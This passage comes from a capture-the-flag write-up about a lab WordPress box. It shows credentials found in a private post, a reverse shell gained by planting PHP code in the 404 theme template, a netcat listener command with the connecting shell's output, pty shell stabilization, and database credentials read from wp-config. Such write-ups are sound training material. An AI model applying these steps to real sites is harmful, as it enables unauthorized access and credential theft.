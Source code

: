 #### Wordpress dashboard

Once here we can really just get a reverse shell but i found something. There is a private post in the Wordpress that contains something really interesting:

```
To-Do

Don't forget to reset Will's credentials. william:arnold147
```

So more credentials nice!: `william:arnold147` Before trying to get a reverse shell i will try the credentials we already know in `ssh`, remember that it was open. After some trying for a while i wasn't able to use them to login through `ssh`, sad, but hey we still can get a reverse shell so let's go for it.

##### Reverse shell

To get a reverse shell from Wordpress i will go to the theme editor and change the 404 page template with php reverse shell code. Once that is done, i setup my netcat listenner: `nc -lnvp 8080` and tried to access a non existant article in wordpress, i noticed that the `/wordpress` directory gobuster found just do that so let's go:

```
──(kali㉿kali)-[~]
└─$ nc -lnvp 8080
listening on [any] 8080 ...
connect to [10.9.82.69] from (UNKNOWN) [internal.thm] 59962
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 18:22:28 up  1:27,  0 users,  load average: 0.00, 0.02, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$
```

To stabilize the shell execute `python -c 'import pty; pty.spawn("/bin/bash")'`, then `ctrl-z` to suspend the process, execute `stty raw -echo; fg`, hit enter to get the reverse shell prompt again and lastly just `export TERM=xterm`.


### Privesc to user

First thing i want to check is if the wordpress installation has something for me, this is what i got:

```
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'wordpress123' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );
```
